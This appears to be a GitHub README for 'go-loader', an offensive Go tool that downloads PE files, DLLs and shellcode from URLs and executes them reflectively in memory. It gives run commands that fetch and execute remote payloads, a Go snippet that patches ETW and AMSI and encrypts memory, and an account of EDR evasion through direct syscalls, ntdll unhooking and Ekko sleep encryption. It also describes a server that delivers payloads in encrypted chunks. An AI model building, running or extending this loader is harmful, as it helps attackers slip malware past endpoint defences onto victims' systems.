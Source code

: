 # go-loader

a pe/dll/shellcode loader that downloads and executes files from urls in memory

## usage
![demo](https://github.com/user-attachments/assets/9f45cf71-1578-4393-94d6-7cc5475870d3)


```bash
# execute pe file from url
go run main.go -pe -url https://example.com/calc.exe

# execute shellcode from url  
go run main.go -shellcode -url https://example.com/shellcode.bin

# execute dll from url with specific function
go run main.go -dll -url https://example.com/mydll.dll -func MyFunction

# build
go build -o loader.exe cmd/main.go
```

## technical details

this project implements full reflective loading of pe files, dlls, and shellcode directly from downloaded byte arrays in memory without ever touching disk. the core functionality includes complete pe parsing with dos/nt header validation, section mapping with proper memory permissions (rx for .text, rw for data), base relocation processing for aslr compatibility supporting both 32-bit (image_rel_based_highlow) and 64-bit (image_rel_based_dir64) relocations, and comprehensive import address table resolution including forwarded export handling that can parse "dll.function" and "dll.#ordinal" forwarder strings and resolve them across multiple dlls. the main technical challenge was go's absolutely evil garbage collector that would intermittently move or collect our downloaded buffers during pe/dll execution, causing status_invalid_handle (0xc0000008) errors and crashes. i solved this by implementing very aggressive anti-gc techniques: runtime.keepalive calls throughout execution, completely disabling gc during critical sections with debug.setgcpercent(-1), locking goroutines to os threads with runtime.lockosthread, forcing multiple gc runs before execution to clear memory, and creating dedicated pinned byte copies that stay alive throughout the entire loading process. for pe execution we allocate memory at the preferred base address when possible or use relocations when aslr forces us elsewhere, copy headers and sections correctly, fix imports and relocations, then execute via ntcreatethreadex. for dll loading we parse export tables to find functions by name or ordinal, handle complex import resolution, and can execute specific exported functions or the dll entry point. shellcode execution uses direct ntinjectselfshellcode for self-injection. the network downloader includes proper http headers for opsec and handles the downloaded data with gc-safe buffer management. all critical syscalls now go through custom nt api wrappers (ntallocatevirtualmemory, ntwritevirtualmemory, ntreadvirtualmemory, ntprotectvirtualmemory, ntfreevirtualmemory, ntunmapviewofsection, ntcreatethreadex, ntwaitforsingleobject, ntclose, ntinjectselfshellcode) instead of high-level windows apis for better opsec and edr evasion. the loader now implements ekko sleep functionality for evasive sleeping during execution - this technique suspends all threads in the current process except the main thread, encrypts the entire process image in memory using systemfunction032 (rc4), sleeps for a specified duration, then decrypts the image and resumes all threads, making static memory analysis much more difficult during sleep periods. you can also encrypt the global buffer containing the downloaded pe/dll/shellcode easily with GetGlobalBufferRegion(), see main.go for example. the syscall wrappers (now in plan9 instead of nasm) provide direct nt api access after unhooking ntdll and applying patches to bypass userland hooks, though i still had to use syscall.loadlibrary and a LOT of syscalls in ekko implementation, also a few times for import resolution since you can't avoid loading dependencies and my ldrloaddll wrapper sucks sorry guys. the loader also now offers a server that parses a payload from disk, chunks, encrypts, and sends one by one to requesting client to be reflectively loaded and executed

> ekko implementation causes intermittent segfaults during dll loading, likely due to rop chain complexity + golang.

## to use the loader
```bash
## navigate to go-server/cmd
cd go-server/cmd
## in another shell, run the tcp tunnel ssh command included as a comment in server.go
## replace the const link with the generated link
## then run the server
go run server.go
## this will generate a payloads folder, move your payloads into them
## now navigate to go-loader/cmd\
cd ../cmd
go build -ldflags="-w -s" -trimpath -o loader.exe
## then to run with a payload from /payloads
./loader.exe -pe|dll|shellcode -url http://<generated-link>/payloads/filename.exe
```

## use this pattern for a more reliable form of evasion

```go
// import pkg/net and pkg/patch
patch.ETW
patch.AMSI
addr, size, err := net.GetGlobalBufferRegion()
if err != nil {
	log.Fatalf("[ERROR] Failed to get global buffer region: %v\n", err)
}

key, err := ekko.GenerateKey(16)
if err != nil {
	log.Fatalf("[ERROR] Failed to generate key: %v\n", err)
}

err = ekko.EncryptMemoryRegion(addr, size, key, 1000)
if err != nil {
	log.Fatalf("[ERROR] Failed to encrypt memory region: %v\n", err)
}

// we just call it again to decrypt bc symmetric 
err = ekko.EncryptMemoryRegion(addr, size, key, 1000)
if err != nil {
	log.Fatalf("[ERROR] Failed to decrypt memory region: %v\n", err)
}

```

## credits

- [@timwhitez/Doge-MemX](https://github.com/timwhitez/Doge-MemX) for pe loader code that i adapted
- [@scriptchildie/goDLLrefletiveloader](https://github.com/scriptchildie/goDLLrefletiveloader) for dll loading code that i fixed forwarded functions and some other small issues
- [@scriptchildie/goEkko](https://github.com/scriptchildie/goEkko) for ekko sleep implementation
